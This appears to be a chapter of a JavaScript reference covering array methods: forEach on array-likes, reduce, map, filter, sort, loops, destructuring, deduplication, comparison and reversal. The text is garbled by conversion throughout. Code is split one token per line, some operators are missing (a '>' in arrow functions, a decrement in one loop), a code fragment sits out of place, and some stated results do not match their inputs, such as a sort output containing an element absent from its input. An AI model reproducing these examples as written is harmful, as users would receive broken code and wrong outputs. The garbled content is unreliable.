**var**

domList

=

document.

querySelectorAll

(

\'#myDropdown option\'

)

;

domList.

forEach

(

**function**

(

)

{

*// Do stuff*

}

)

;

*// Error! forEach is not defined.*

Array

.

**prototype**

.

forEach

.

call

(

domList

,

**function**

(

)

{

*// Do stuff*

}

)

;

*// Wow! this works*

  
  method         .   bind      (   arrayLikeObject
      

  

You can also use \[\].) to borrow array methods and glom them on to
your object:

Version

≥

5.1

**var**

arrayLike

=

{

0

:

\'Value 0\'

,

1

:

\'Value 1\'

,

length

:

2

}

;

arrayLike.

forEach

(

**function**

(

)

{

*// Do stuff*

}

)

;

*// Error! forEach is not defined.*

\[

\]

.

forEach

.

bind

(

arrayLike

)

(

**function**

(

val

)

{

*// Do stuff with val*

}); *// Wow! this works*

**Modifying Items During Conversion**

  -
  Array                               .       from
   - 

  -

In ES6, while using , we can specify a map function that returns a
mapped value for the new array being created.

Version ≥ 6

Array.from(domList, element =\element.tagName); *// Creates an array
of tagName\'s*

See Arrays are Objects for a detailed analysis.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-2">Section 12.2: Reducing values</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Version ≥ 5.1

  
  reduce
  

  

The () method applies a function against an accumulator and each value
of the array (from left-to-right) to reduce it to a single value.
>
**Array Sum**
>
This method can be used to condense all values of an array into a
single value:

\[

1

,

2

,

3

,

4

\]

.

reduce

(

**function**

(

a

,

b

)

{

**return**

a

\+

b

;

}

)

;

*//*

→

*10*

  
  reduce
  

  

  
  **function**                                (a,              b
   - -

  

Optional second parameter can be passed to (). Its value will be used
as the first argument (specified as a) for the first call to the
callback (specified as )).

\[

2

\]

.

reduce

(

**function**

(

a

,

b

)

{

console.

log

(

a

,

b

)

;

*// prints: 1 2*

**return**

a

\+

b

;

}

,

1

)

;

*//*

→

*3*

Version ≥ 5.1

**Flatten Array of Objects**
>
The example below shows how to flatten an array of objects into a
single object.

**var**

array

=

\[

{

key

:

\'one\'

,

value

:

1

}

,

{

key

:

\'two\'

,

value

:

2

}

,

{

key

:

\'three\'

,

value

:

3

}

\]

;

Version ≤ 5.1

array.

reduce

(

**function**

(

obj

,

current

)

{

obj

\[

current.

key

\]

=

current.

value

;

**return**

obj

;

}

,

{

}

)

;

Version ≥ 6

}), {});

array.

reduce

(

(

obj

,

current

)

=\>

Object

.

assign

(

obj

,

{

\[

current.

key

\]

:

current.

value

Version ≥ 7 array.reduce((obj, current) =\({\...obj, \[current.key\]:
current.value}), {});

Note that the [Rest/Spread
Properties](https://github.com/sebmarkbage/ecmascript-rest-spread) is
not in the list of [finished proposals of
ES2016](https://github.com/tc39/proposals/blob/master/finished-proposals.md).
It isn\'t supported by ES2016. But we can use babel plugin
[babel-plugin-transform-object-rest-spread](https://babeljs.io/docs/plugins/transform-object-rest-spread/)
to support it.
>
All of the above examples for Flatten Array result in:

{

one

:

1

,

two

:

2

,

three

:

3

}

Version ≥ 5.1

**Map Using Reduce**
>
As another example of using the *initial value* parameter, consider
the task of calling a function on an array of items, returning the
results in a new array. Since arrays are ordinary values and list
concatenation is an ordinary function, we can use reduce to accumulate
a list, as the following example demonstrates:

**function**

map

(

list

,

fn

)

{

**return**

list.

reduce

(

**function**

(

newList

,

item

)

{

**return**

newList.

concat

(

fn

(

item

)

)

;

}

,

\[

\]

)

;

}

*// Usage:*

map

(

\[

1

,

2

,

3

\]

,

**function**

(

n

)

{

**return**

n

\*

n

;

}

)

;

*//*

→

*\[1, 4, 9\]*

Note that this is for illustration (of the initial value parameter)
only, use the native map for working with list transformations (see
Mapping values for the details).

Version ≥ 5.1

**Find Min or Max Value**
>
We can use the accumulator to keep track of an array element as well.
Here is an example leveraging this to find the min value:

**var**

arr

=

\[

4

,

2

,

1

,

\-

10

,

9

\]

arr.

reduce

(

**function**

(

a

,

b

)

{

**return**

a

\<

b

?

a

:

b

}

,

**Infinity**

)

;

*//*

→

*-10*

Version ≥ 6

**Find Unique Values**
>
Here is an example that uses reduce to return the unique numbers to an
array. An empty array is passed as the second argument and is
referenced by prev.

**var**

arr

=

\[

1

,

2

,

1

,

5

,

9

,

5

\]

;

arr.

reduce

(

(

prev

,

number

)

=\>

{

**if**

(

prev.

indexOf

(

number

)

===

\-

1

)

{

prev.

push

(

number

)

;

}

**return**

prev

;

}

,

\[

\]

)

;

*//*

→

*\[1, 2, 5, 9\]*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-3">Section 12.3: Mapping values</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

It is often necessary to generate a new array based on the values of
an existing array.

For example, to generate an array of string lengths from an array of
strings:

Version

≥

5.1

\[

\'one\'

,

\'two\'

,

\'three\'

,

\'four\'

\]

.

map

(

**function**

(

value

,

index

,

arr

)

{

**return**

value.

length

;

}

)

;

*//*

→

*\[3, 3, 5, 4\]*

Version

≥

6

\[

\'one\'

,

\'two\'

,

\'three\'

,

\'four\'

\]

.

map

(

value

=\>

value.

length

)

;

*//*

→

*\[3, 3, 5, 4\]*

  
  map
  

  

In this example, an anonymous function is provided to the () function,
and the map function will call it for every element in the array,
providing the following parameters, in this order:
>
The element itself
>
The index of the element (0, 1\...)
>
The entire array

  
  map
  

  

Additionally, () provides an *optional* second parameter in order to
set the value of **this** in the mapping function. Depending on the
execution environment, the default value of **this** might vary:
>
In a browser, the default value of **this** is always window:

\[

\'one\'

,

\'two\'

\]

.

map

(

**function**

(

value

,

index

,

arr

)

{

console.

log

(

**this**

)

;

*// window (the default value in browsers)*

**return**

value.

length

;

}

)

;

You can change it to any custom object like this:

\[

\'one\'

,

\'two\'

\]

.

map

(

**function**

(

value

,

index

,

arr

)

{

console.

log

(

**this**

)

;

*// Object { documentation: \"randomObject\" }*

**return**

value.

length

;

}

,

{

documentation

:

\'randomObject\'

}

)

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-4">Section 12.4: Filtering Object Arrays</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  filter
  

  

The () method accepts a test function, and returns a new array
containing only the elements of the original array that pass the test
provided.

*// Suppose we want to get all odd number in an array:*

**var**

numbers

=

\[

5

,

32

,

43

,

4

\]

;

Version ≥ 5.1

**var**

odd

=

numbers.

filter

(

**function**

(

n

)

{

**return**

n

\%

2

!==

0

;

}

)

;

Version ≥ 6 **let** odd = numbers.filter(n =\n % 2 !== 0); *// can be
shortened to (n =\n % 2)*

  
  43
  

  

odd would contain the following array: \[5,\].
>
It also works on an array of objects:

**var**

people

=

\[

{

id

:

1

,

name

:

\"John\"

,

age

:

28

}

,

{

id

:

2

,

name

:

\"Jane\"

,

age

:

31

}

,

{

id

:

3

,

name

:

\"Peter\"

,

age

:

55

}

\]

;

Version ≥ 5.1

**var**

young

=

people.

filter

(

**function**

(

person

)

{

**return**

person.

age

\<

35

;

}

)

;

Version ≥ 6

**let**

young

=

people.

filter

(

person

=\>

person.

age

\<

35

)

;

young

would contain the following array:

\[

{

id

:

1

,

name

:

\"John\"

,

age

:

28

}

,

{

id

:

2

,

name

:

\"Jane\"

,

age

:

31

}

\]

You can search in the whole array for a value like this:

**var**

young

=

people.

filter

(

(

obj

)

=\>

{

**var**

flag

=

**false**

;

Object

.

values

(

obj

)

.

forEach

(

(

val

)

=\>

{

**if**

(

String

(

val

)

.

indexOf

(

\"J\"

)

\>

\-

1

)

{

flag

=

**true**

;

**return**

;

}

}

)

;

**if**

(

flag

)

**return**

obj

;

}

)

;

This returns:

\[

{

id

:

1

,

name

:

\"John\"

,

age

:

28

}

,

{

id

:

2

,

name

:

\"Jane\"

,

age

:

31

}

\]

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-5">Section 12.5: Sorting Arrays</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  sort
  

  

The .() method sorts the elements of an array. The default method will
sort the array according to string

  
  sort
  

  

Unicode code points. To sort an array numerically the .() method needs
to have a compareFunction passed to it.

  -
  sort       () method is impure. .                             sort
  -  -

  -

**Note:** The .() will sort the array **in-place**, i.e., instead of
creating a sorted copy of the original array, it will re-order the
original array and return it.
>
**Default Sort**
>
Sorts the array in UNICODE order.
>
\[\'s\', \'t\', \'a\', 34, \'K\', \'o\', \'v\', \'E\', \'r\', \'2\',
\'4\', \'o\', \'W\', -1, \'-4\'\].sort();

Results in:

\[

\-

1

,

\'-4\'

,

\'2\'

,

34

,

\'4\'

,

\'E\'

,

\'K\'

,

\'W\'

,

\'a\'

,

\'l\'

,

\'o\'

,

\'o\'

,

\'r\'

,

\'s\'

,

\'t\'

,

\'v\'

\]

**Note:**

The uppercase characters have moved above lowercase. The array is not in
alphabetical order, and

numbers are not in numerical order.

**Alphabetical Sort**

\[

\'s\'

,

\'t\'

,

\'a\'

,

\'c\'

,

\'K\'

,

\'o\'

,

\'v\'

,

\'E\'

,

\'r\'

,

\'f\'

,

\'l\'

,

\'W\'

,

\'2\'

,

\'1\'

\]

.

sort

(

(

a

,

b

)

=\>

{

**return**

a\.

localeCompare

(

b

)

;

}

)

;

Results in:

\[

\'1\'

,

\'2\'

,

\'a\'

,

\'c\'

,

\'E\'

,

\'f\'

,

\'K\'

,

\'l\'

,

\'o\'

,

\'r\'

,

\'s\'

,

\'t\'

,

\'v\'

,

\'W\'

\]

**Note:**

The above sort will throw an error if any array items are not a string.
If you know that the array

may contain items that are not strings use the safe version below.

\[

\'s\'

,

\'t\'

,

\'a\'

,

\'c\'

,

\'K\'

,

1

,

\'v\'

,

\'E\'

,

\'r\'

,

\'f\'

,

\'l\'

,

\'o\'

,

\'W\'

\]

.

sort

(

(

a

,

b

)

=\>

{

**return**

a\.

toString

(

)

.

localeCompare

(

b

)

;

}

)

;

**String sorting by length (longest first)**

\[

\"zebras\"

,

\"dogs\"

,

\"elephants\"

,

\"penguins\"

\]

.

sort

(

**function**

(

a

,

b

)

{

**return**

b\.

length

\-

a\.

length

;

}

)

;

Results in

\[

\"elephants\"

,

\"penguins\"

,

\"zebras\"

,

\"dogs\"

\]

;

**String sorting by length (shortest first)**

\[

\"zebras\"

,

\"dogs\"

,

\"elephants\"

,

\"penguins\"

\]

.

sort

(

**function**

(

a

,

b

)

{

**return**

a\.

length

\-

b\.

length

;

}

)

;

Results in

\[

\"dogs\"

,

\"zebras\"

,

\"penguins\"

,

\"elephants\"

\]

;

**Numerical Sort (ascending)**

\[

100

,

1000

,

10

,

10000

,

1

\]

.

sort

(

**function**

(

a

,

b

)

{

**return**

a

\-

b

;

}

)

;

Results in:

\[

1

,

10

,

100

,

1000

,

10000

\]

**Numerical Sort (descending)**

\[

100

,

1000

,

10

,

10000

,

1

\]

.

sort

(

**function**

(

a

,

b

)

{

**return**

b

\-

a

;

}

)

;

Results in:

\[

10000

,

1000

,

100

,

10

,

1

\]

**Sorting array by even and odd numbers**

\[

10

,

21

,

4

,

15

,

7

,

99

,

0

,

12

\]

.

sort

(

**function**

(

a

,

b

)

{

**return**

(

a

&

1

)

\-

(

b

&

1

)

\|\|

a

\-

b

;

}

)

;

Results in:

\[

0

,

4

,

10

,

12

,

7

,

15

,

21

,

99

\]

**Date Sort (descending)**

**var**

dates

=

\[

**new**

Date

(

2007

,

11

,

10

)

,

**new**

Date

(

2014

,

2

,

21

)

,

**new**

Date

(

2009

,

6

,

11

)

,

**new**

Date

(

2016

,

7

,

23

)

\]

;

dates.

sort

(

**function**

(

a

,

b

)

{

**if**

(

a

\>

b

)

**return**

\-

1

;

**if**

(

a

\<

b

)

**return**

1

;

**return**

0

;

}

)

;

*// the date objects can also sort by its difference*

*// the same way that numbers array is sorting*

dates.

sort

(

**function**

(

a

,

b

)

{

**return**

b

\-

a

;

}

)

;

Results in:

\[

\"Tue Aug 23 2016 00:00:00 GMT-0600 (MDT)\"

,

\"Fri Mar 21 2014 00:00:00 GMT-0600 (MDT)\"

,

\"Sat Jul 11 2009 00:00:00 GMT-0600 (MDT)\"

,

\"Mon Dec 10 2007 00:00:00 GMT-0700 (MST)\"

\]

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-6">Section 12.6: Iteration</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**A traditional for-loop**

A traditional **for** loop has three components:

1.  **The initialization:** executed before the look block is executed
    the first time

2.  **The condition:** checks a condition every time before the loop
    block is executed, and quits the loop if false

3.  **The afterthought:** performed every time after the loop block is
    executed

These three components are separated from each other by a ; symbol.
Content for each of these three components is optional, which means
that the following is the most minimal **for** loop possible:

**for**

(

;;

)

{

*// Do stuff*

}

Of course, you will need to include an

**if**

(

condition

===

**true**

)

{

**break**

;

}

or an

**if**

(

condition

===

**true**

)

{

**return**

;

}

somewhere inside that

**for**

\-

loop to get it to stop running.

Usually, though, the initialization is used to declare an index, the
condition is used to compare that index with a minimum or maximum
value, and the afterthought is used to increment the index:

**for**

(

**var**

i

=

0

,

length

=

10

;

i

\<

length

;

i

++

)

{

console.

log

(

i

)

;

}

**Using a traditional for loop to loop through an array**
>
The traditional way to loop through an array, is this:

**for**

(

**var**

i

=

0

,

length

=

myArray.

length

;

i

\<

length

;

i

++

)

{

console.

log

(

myArray

\[

i

\]

)

;

}

Or, if you prefer to loop backwards, you do this:

**for**

(

**var**

i

=

myArray.

length

\-

1

;

i

\>

\-

1

;

i

\

)

{

console.

log

(

myArray

\[

i

\]

)

;

}

There are, however, many variations possible, like for example this
one:

**for**

(

**var**

key

=

0

,

value

=

myArray

\[

key

\]

,

length

=

myArray.

length

;

key

\<

length

;

value

=

myArray

\[

++

key

\]

)

{

console.

log

(

value

)

;

}

\... or this one \...

**var**

i

=

0

,

length

=

myArray.

length

;

**for**

(

;

i

\<

length

;

)

{

console.

log

(

myArray

\[

i

\]

)

;

i

++

;

}

\... or this one:

**var**

key

=

0

,

value

;

**for**

(

;

value

=

myArray

\[

key

++

\]

;

)

{

console.

log

(

value

)

;

}

Whichever works best is largely a matter of both personal taste and
the specific use case you\'re implementing.
>
Note that each of these variations is supported by all browsers,
including very very old ones!
>
**A while loop**
>
One alternative to a **for** loop is a while loop. To loop through an
array, you could do this:

**var**

key

=

0

;

while

(

value

=

myArray

\[

key

++

\]

)

{

console.

log

(

value

)

;

}

Like traditional **for** loops, while loops are supported by even the
oldest of browsers.
>
Also, note that every while loop can be rewritten as a **for** loop.
For example, the while loop hereabove behaves the exact same way as
this **for**-loop:

**for**

(

**var**

key

=

0

;

value

=

myArray

\[

key

++

\]

;

)

{

console.

log

(

value

)

;

}

**for\...in**

In JavaScript, you can also do this:

**for**

(

i

**in**

myArray

)

{

console.

log

(

myArray

\[

i

\]

)

;

}

This should be used with care, however, as it doesn\'t behave the same
as a traditional **for** loop in all cases, and there are potential
side-effects that need to be considered. See [**Why is using
\"for\...in\" with array iteration a bad**
**idea?**](https://stackoverflow.com/questions/500504/why-is-using-for-in-with-array-iteration-such-a-bad-idea)
for more details.

**for\...of**

  
  [for](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/for...of)   [-](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/for...of)   [of](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/for...of)
    -

  

In ES 6, the loop is the recommended way of iterating over a the
values of an array:

Version ≥ 6

**let**

myArray

=

\[

1

,

2

,

3

,

4

\]

;

**for**

(

**let**

value of myArray

)

{

**let**

twoValue

=

value

\*

2

;

console.

log

(

\"2 \* value is: %d\"

,

twoValue

)

;

}

  
  **for**\...of         loop and a                  **for**\...**in**
    

  

The following example shows the difference between a loop:

Version ≥ 6

**let**

myArray

=

\[

3

,

5

,

7

\]

;

myArray.

foo

=

\"hello\"

;

**for**

(

**var**

i

**in**

myArray

)

{

console.

log

(

i

)

;

*// logs 0, 1, 2, \"foo\"*

}

**for**

(

**var**

i of myArray

)

{

console.

log

(

i

)

;

*// logs 3, 5, 7*

}

**Array**

**.**

**prototyp**

**e**

**.**

**keys**

**(**

**)**

  -
  [Array](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/keys)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/keys)   [**prototype**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/keys)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/keys)   [keys](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/keys)
      -

  -

The
[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/keys)
method can be used to iterate over indices like this:

Version ≥ 6

**let**

myArray

=

\[

1

,

2

,

3

,

4

\]

;

**for**

(

**let**

i of myArray.

keys

(

)

)

{

**let**

twoValue

=

myArray

\[

i

\]

\*

2

;

console.

log

(

\"2 \* value is: %d\"

,

twoValue

)

;

}

**Array**

**.**

**prototyp**

**e**

**.**

**forEach**

**(**

**)**

  -
  [forEach](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/forEach)   [(](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/forEach)   [\...](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/forEach)
  - - 

  -

The
[.)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/forEach)
method is an option in ES 5 and above. It is supported by all modern
browsers, as well as Internet Explorer 9 and later.

Version ≥ 5

\[

1

,

2

,

3

,

4

\]

.

forEach

(

**function**

(

value

,

index

,

arr

)

{

**var**

twoValue

=

value

\*

2

;

console.

log

(

\"2 \* value is: %d\"

,

twoValue

)

;

}

)

;

  
  forEach
  

  

Comparing with the traditional **for** loop, we can\'t jump out of the
loop in .(). In this case, use the **for** loop, or use partial
iteration presented below.
>
In all versions of JavaScript, it is possible to iterate through the
indices of an array using a traditional C-style **for** loop.

**var**

myArray

=

\[

1

,

2

,

3

,

4

\]

;

**for**

(

**var**

i

=

0

;

i

\<

myArray.

length

;

++

i

)

{

**var**

twoValue

=

myArray

\[

i

\]

\*

2

;

console.

log

(

\"2 \* value is: %d\"

,

twoValue

)

;

}

It\'s also possible to use

while

loop:

**var**

myArray

=

\[

1

,

2

,

3

,

4

\]

,

i

=

0

,

sum

=

0

;

while

(

i

++

\<

myArray.

length

)

{

sum

+=

i

;

}

console.

log

(

sum

)

;

  
  **Array**        **.**   **prototype**                  **.**   **every**
  - - - - -

  

  -
  [Array](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/every)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/every)   [**prototype**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/every)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/every)   [every](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/every)
  -  -  -

  -

Since ES5, if you want to iterate over a portion of an array, you can
use , which iterates until we return **false**: Version ≥ 5

*// \[\].every() stops once it finds a false result*

*// thus, this iteration will stop on value 7 (since 7 % 2 !== 0)*

\[

2

,

4

,

7

,

9

\]

.

every

(

**function**

(

value

,

index

,

arr

)

{

console.

log

(

value

)

;

**return**

value

\%

2

===

0

;

*// iterate until an odd number is found*

}

)

;

Equivalent in any JavaScript version:

**var**

arr

=

\[

2

,

4

,

7

,

9

\]

;

**for**

(

**var**

i

=

0

;

i

\<

arr.

length

&&

(

arr

\[

i

\]

\%

2

!==

0

)

;

i

++

)

{

*// iterate until an odd number is*

*found*

console.

log

(

arr

\[

i

\]

)

;

}

  
  **Array**         **.**   **prototype**                   **.**   **some**
   -  - 

  

  -
  [Array](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/some)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/some)   [**prototype**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/some)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/some)   [some](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/some)
      -

  -

iterates until we return **true**: Version ≥ 5

*// \[\].some stops once it finds a false result*

*// thus, this iteration will stop on value 7 (since 7 % 2 !== 0)*

\[

2

,

4

,

7

,

9

\]

.

some

(

**function**

(

value

,

index

,

arr

)

{

console.

log

(

value

)

;

**return**

value

===

7

;

*// iterate until we find value 7*

}

)

;

Equivalent in any JavaScript version:

**var**

arr

=

\[

2

,

4

,

7

,

9

\]

;

**for**

(

**var**

i

=

0

;

i

\<

arr.

length

&&

arr

\[

i

\]

!==

7

;

i

++

)

{

console.

log

(

arr

\[

i

\]

)

;

}

**Libraries**
>
Finally, many utility libraries also have their own foreach variation.
Three of the most popular ones are these:

  
  [**jQuery.each**](http://api.jquery.com/jquery.each/)
  

  

[**()**](http://api.jquery.com/jquery.each/), in
[**jQuery**](https://jquery.com/):

\$.

each

(

myArray

,

**function**

(

key

,

value

)

{

console.

log

(

value

)

;

}

)

;

  
  [**\_.each**](http://underscorejs.org/#each)
  

  

[**()**](http://underscorejs.org/#each), in
[**Underscore.js**](http://underscorejs.org/):

\_.

each

(

myArray

,

**function**

(

value

,

key

,

myArray

)

{

console.

log

(

value

)

;

}

)

;

  
  [**\_.forEach**](https://lodash.com/docs#forEach)
  

  

[**()**](https://lodash.com/docs#forEach), in
[**Lodash.js**](https://lodash.com/):

\_.

forEach

(

myArray

,

**function**

(

value

,

key

)

{

console.

log

(

value

)

;

}

)

;

See also the following question on SO, where much of this information
was originally posted:

[Loop through an array in
JavaScript](https://stackoverflow.com/questions/3010840/loop-through-an-array-in-javascript/35707349#35707349)

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-7">Section 12.7: Destructuring an array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Version ≥ 6

An array can be destructured when being assigned to a new variable.

**const**

triangle

=

\[

3

,

4

,

5

\]

;

**const**

\[

length

,

height

,

hypotenuse

\]

=

triangle

;

length

===

3

;

*//*

→

*true*

height

===

4

;

*//*

→

*true*

hypotneuse

===

5

;

*//*

→

*true*

Elements can be skipped

**const**

\[

,

b

,,

c

\]

=

\[

1

,

2

,

3

,

4

\]

;

console.

log

(

b

,

c

)

;

*//*

→

*2, 4*

Rest operator can be used too

**const**

\[

b

,

c

,

\...

xs

\]

=

\[

2

,

3

,

4

,

5

\]

;

console.

log

(

b

,

c

,

xs

)

;

*//*

→

*2, 3, \[4, 5\]*

An array can also be destructured if it\'s an argument to a function.

**function**

area

(

\[

length

,

height

\]

)

{

**return**

(

length

\*

height

)

/

2

;

}

**const**

triangle

=

\[

3

,

4

,

5

\]

;

area

(

triangle

)

;

*//*

→

*6*

*Notice the third argument is not named in the function because it\'s
not needed.*

Learn more about destructuring syntax.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-8">Section 12.8: Removing duplicate elements</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  [Array](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/filter)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/filter)   [**prototype**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/filter)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/filter)   [filter](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/filter)
      

  

From ES5.1 onwards, you can use the native method to loop through an
array and leave only entries that pass a given callback function.
>
In the following example, our callback checks if the given value
occurs in the array. If it does, it is a duplicate and will not be
copied to the resulting array.

Version ≥ 5.1 **var** uniqueArray = \[\'a\', 1, \'a\', 2, \'1\',
1\].filter(**function**(value, index, self) { **return**
self.indexOf(value) === index;

}); *// returns \[\'a\', 1, 2, \'1\'\]*
>
If your environment supports ES6, you can also use the
[Set](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Set)
object. This object lets you store unique values of any type, whether
primitive values or object references:

Version ≥ 6

**var**

uniqueArray

=

\[

\...

**new**

Set

(

\[

\'a\'

,

1

,

\'a\'

,

2

,

\'1\'

,

1

\]

)

\]

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-9">Section 12.9: Array comparison</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

For simple array comparison you can use JSON stringify and compare the
output strings:

JSON.

stringify

(

array1

)

===

JSON.

stringify

(

array2

)

**Note:**

that this will only work if both objects are JSON serializable and do
not contain cyclic references. It

may throw

TypeError

:

Converting circular structure to JSON

You can use a recursive function to compare arrays.

**function**

compareArrays

(

array1

,

array2

)

{

**var**

i

,

isA1

,

isA2

;

isA1

=

Array

.

isArray

(

array1

)

;

isA2

=

Array

.

isArray

(

array2

)

;

**if**

(

isA1

!==

isA2

)

{

*// is one an array and the other not?*

**return**

**false**

;

*// yes then can not be the same*

}

**if**

(

!

(

isA1

&&

isA2

)

)

{

*// Are both not arrays*

**return**

array1

===

array2

;

*// return strict equality*

}

**if**

(

array1.

length

!==

array2.

length

)

{

*// if lengths differ then can not be the same*

**return**

**false**

;

}

*// iterate arrays and compare them*

**for**

(

i

=

0

;

i

\<

array1.

length

;

i

+=

1

)

{

**if**

(

!

compareArrays

(

array1

\[

i

\]

,

array2

\[

i

\]

)

)

{

*// Do items compare recursively*

**return**

**false**

;

}

}

**return**

**true**

;

*// must be equal*

}

**WARNING:** Using the above function is dangerous and should be
wrapped in a **try** **catch** if you suspect there is a chance the
array has cyclic references (a reference to an array that contains a
reference to itself)

a

=

\[

0

\]

;

a

\[

1

\]

=

a

;

b

=

\[

0

,

a

\]

;

compareArrays

(

a

,

b

)

;

*// throws RangeError: Maximum call stack size exceeded*

**Note:**

The function uses the strict equality operator

===

to compare non array items

{

a

:

0

}

===

{

a

:

0

}

is

**false**

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-10">Section 12.10: Reversing arrays</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  reverse
  

  

. is used to reverse the order of items inside an array.

  
  reverse
  

  

Example for .:

\[

1

,

2

,

3

,

4

\]

.

reverse

(

)

;

Results in:

\[

4

,

3

,

2

,

1

\]

**Note**

:

Please note that

.

reverse

(

Array

.

**prototype**

.

reverse

will reverse the array

)

*in place*

. Instead of

returning a reversed copy, it will return the same array, reversed.

**var**

arr1

=

\[

11

,

22

,

33

\]

;

**var**

arr2

=

arr1.

reverse

(

)

;

console.

log

(

arr2

)

;

*// \[33, 22, 11\]*

console.

log

(

arr1

)

;

*// \[33, 22, 11\]*

You can also reverse an array \'deeply\' by:

**function**

deepReverse

(

arr

)

{

arr.

reverse

(

)

.

forEach

(

elem

=\>

{

**if**

(

Array

.

isArray

(

elem

)

)

{

deepReverse

(

elem

)

;

}

}

)

;

**return**

arr

;

}

Example for deepReverse:

**var**

arr

=

\[

1

,

2

,

3

,

\[

1

,

2

,

3

,

\[

\'a\'

,

\'b\'

,

\'c\'

\]

\]

\]

